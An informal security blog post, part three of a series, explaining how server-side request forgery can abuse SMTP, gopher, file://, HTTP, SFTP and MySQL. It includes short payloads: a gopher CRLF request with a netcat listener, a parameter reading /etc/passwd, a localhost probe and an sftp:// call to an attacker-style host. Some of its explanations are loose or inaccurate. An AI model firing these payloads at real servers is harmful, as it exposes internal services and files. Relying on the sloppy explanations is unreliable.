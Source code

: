```yaml
---
layout: post
published: true
title: Breaking the ssrf protocol Part: 3
tags:
 - ssrf
 - web pentesting
 
comments: true

---
```


# protocol and it's types
hey folks? what’s up hope you are well in pandemic First of all i want to apologize for writing article lately because i was busy in making project in python 3soon I will release my tool stay tuned I am not here to advertise my tool XD nor you to see my adverstisment. So in this section i will cover protocol exploitation with ssrf we can exploit protocols like gopher,http,mysql,intranet,smtpetc. to attack on web application and stealing data and abuse web application
This section and upcoming section gonne be on advance level of ssrf if you have any concept related to ssrf first clear it via previous two parts
before diving into the exploiting protocols let’s clear about basic definition and working of these protocol There are lots of protocols but as you know i hate long articles so i cover up only main protocols definition and rest of protocols i leave on you to resarch :)
Protocols And Its Types
Basically what are protocols? protocols are nothing it’s just a set of rules for exchanging data. There are many protocols available for transferring files(ftp), for mailing(smtp), for calling(voip) etc. are used since this article is on exploiting ssrf we will talk about those protocls which are abused by ssrf for exploiting web application

# Exploitation

let’s break these protocols with the help of ssrf ^_^
SMTP(simple mail transfer protocol)- for sending,receiving email
thanx to this guy we have a unique way for exploiting smtp
Probably an obvious SSRF trick for pros but I just figured out:)
```
1. cononnect with SSRF on smtp localhost:25
2 from the first line get the internal domain name 220 http://blabla.internaldomain.com ESMTP Sendmail
3 search http://internaldomain.com on github, find subdomains
4 connect
there are other various techniques for exploiting smtp like creating a payload and host it on server then send mail you can read awesome article
```

2. gopher -
as we all know gopher is very old protocols used for fetching files on webserver but it got very very old since its not used in wide number of applications but with ssrf we can exploit gopher and http as in previous article i said unsanitized data leads to file fetching but why the files are fetched?? just because of these protocols
Gopher exploitation is very vast we can exploit http,redis,telnet,ftp and many more here is a awesome tool which create payloads for these protocols. We can’t cover all gopher exploitation in this article because it won’t possible if i gonna cover it took very much time and article gonna long and long I will explain all exploitation techniques on gopher separately in next article In this article i will depict basic exploitation of gopher if you wanna learn advance level exploitation of gopher you can read it here
```
$gopher://<host>:<port>/<gopher-path>
$ curl gopher://localhost:2222/hello%0agopher

$ nc -lvvp 2222
listening on [any] 2222 …
connect to [127.0.0.1] from localhost [127.0.0.1] 34116
ello
gopher
```
that’s how we do the basic level exploitation of gopher with crlf (carriage return line and feed) we can use gopher to exploit mysql,redis,http,smtp and so on I will show and explain every techinque in Unique article dedicated to gopher exploitation
3.file://
basically it fetches files from external resources we can exploit it with replacing a file with our payload
**www.justfortest.com?php?fetch=file:///etc/passwd**
it will show content of /etc/passwd file which contains system id of admin and user
4.HTTP(hyper text transfer protocol)
I don’t think that it’s a topic of explain XD let’s come at exploitation
**www.justfortest.com?php?url=http://localhost:21**
it will fetch content of localhost to hacker
5.SFTP(secure file transfer protocol)
protocol used in sending files securely
**www.justfortest.com?url=sftp://evul.com:3333**
6.mysql
protocol used between mysqlclient and server
well, i can’t explain better then this read this article
That’s all for today i covered all various protocol for exploiting with the help of ssrf In next article i will do chaining of ssrf with critical and some low level bugs and if there is any mistake or i forgot to mention any important protocol then let me know in comments :)
